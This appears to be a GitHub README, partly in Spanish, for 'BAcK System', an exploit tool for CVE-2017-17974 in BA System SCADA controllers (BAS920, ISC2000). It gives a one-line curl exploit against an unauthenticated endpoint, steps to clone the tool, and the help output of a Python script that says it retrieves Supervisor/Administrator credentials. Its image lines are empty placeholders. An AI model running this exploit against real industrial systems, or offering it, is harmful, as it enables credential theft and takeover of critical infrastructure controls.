








#  [Tool] BAcK System
## [BA System] “Improper Access Control (Authorization)”


	[*] Exploit Title:       "Improper Access Control (Authorization)” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 



Accedemos a la plataforma y como era de esperar nos recibe un "login form"





### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:




### Adentro:




***


# TOOL: "BAcK System"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help

	usr@pwn:~/$ python baCK_system.py --help

	python cafeina.py --help
	usage: cafeina.py [-h] [-v] --host HOST [--port PORT]

	[+] obtaining the credential information for the Supervisor/Administrator
	account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python cafeina.py --host 192.168.1.101 -p 81

***

## Usage:



#### Las update !!!


